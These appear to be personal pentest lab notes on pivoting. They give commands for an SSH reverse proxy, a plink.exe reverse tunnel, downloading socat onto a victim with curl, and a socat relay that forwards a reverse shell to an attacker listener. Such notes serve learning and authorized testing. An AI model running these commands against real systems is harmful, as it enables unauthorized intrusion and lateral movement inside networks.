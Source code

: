 this will allow us to access .10 webserver from Kali machine

to create a proxy:

```bash
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

## plink.exe

a windows cli version of putty

transfer plink.exe to victim and create reverse connection

```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

example:

```
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N
```

be sure to convert OpenSSH keys into Putty keys using puttygen

## socat

used to set up relays. good analogy is a portal gun

get socat onto victim:

on Kali:

```bash
sudo python3 -m http.server 80
```

on victim:

```bash
curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME
```

### reverse shell relay

start netcat listener on AttackBox

```bash
nc -nvlp 443
```

use socat on compromised server to start relay:

```bash
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
```

* `tcp-l:8000` - create a local listener on TCP port 8000
* `tcp:ATTACKING_IP:443` - connect to ATTACKER_IP on 443
